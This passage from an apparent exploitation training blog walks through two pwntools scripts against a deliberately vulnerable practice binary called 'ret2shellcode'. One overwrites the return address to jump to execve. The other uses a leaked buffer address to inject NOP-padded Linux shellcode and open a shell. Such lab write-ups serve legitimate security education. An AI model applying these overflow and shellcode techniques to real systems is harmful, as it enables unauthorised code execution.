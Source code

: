 #### Exploit [simpler version]: 

I know you went through all the struggle to set the arguments right, but if you can control the return address and jump literally anywhere, then why not just jump directly on the execve function. 

```python
from pwn import *

p = process("ret2shellcode")
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x00000000004011d1)) # address to execve
p.interactive()
```

#### return 2 shellcode:

This is the third and final way that we will discuss in this blog. Do you remember the leak at the begining ? Yes we will use the leak to get a shell. This time ignore the win() function. Without the help of helper function get a shell yourself :D . 

Remember at the begining I said this binary is NX disabled. So we can basically store the commands that we want to excecute in buf variable and then jump back to the buf variable thereby excecuting whatever we want.

* First step is to store the leak in a variable. We will use recvline function here to recv the output given by the program.
* Write all the commands that you want to excecute to get a shell (pwntools has inbuilt functionalities :D ).
* Fill the gap between the return and the shellcode with dummy instructions called nop (shellcode -> all the commands to be excecuted )
* Jump back to buf variable.

```python
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process() # start the process.

context.binary = elf = ELF('./ret2shellcode') 
start()

buf_addr = int(p.recvlines(2)[-1].split()[-1], 16) # recvlines and then get the leak

payload = asm(shellcraft.linux.sh()) # generates a shellcode compatible with linux systems
payload += b'\x90'*(104 - len(payload)) # spans the gap between buf variable and return 
payload += p64(buf_addr) # address of the buf variable

p.sendline(payload) # send the payload

p.interactive() # doesnt close the shell and keeps it open for us.
p.close()
```

Hope you liked the pwn training 1. More training writeups coming soon ! :D 